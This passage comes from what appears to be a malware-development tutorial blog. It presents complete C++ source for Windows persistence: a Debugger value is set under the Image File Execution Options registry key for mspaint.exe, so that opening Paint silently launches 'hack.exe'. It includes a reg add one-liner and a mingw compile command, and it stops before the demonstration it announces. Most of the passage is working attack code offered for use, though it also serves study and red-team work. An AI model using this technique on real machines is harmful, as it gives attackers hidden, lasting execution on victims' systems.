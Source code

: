 `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`     

then only requires the malicious application to be stored in `System32`.    

So source code is simple and looks like this:    

```cpp
/*
pers2.cpp
windows persistence via IFEO 2(Debugger)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe";

  // evil app
  const char* exe = "hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Let's compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 pers2.cpp -o pers2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/68/2022-09-12_03-00.png){:class="img-responsive"}    

An example of how this appears in action:    
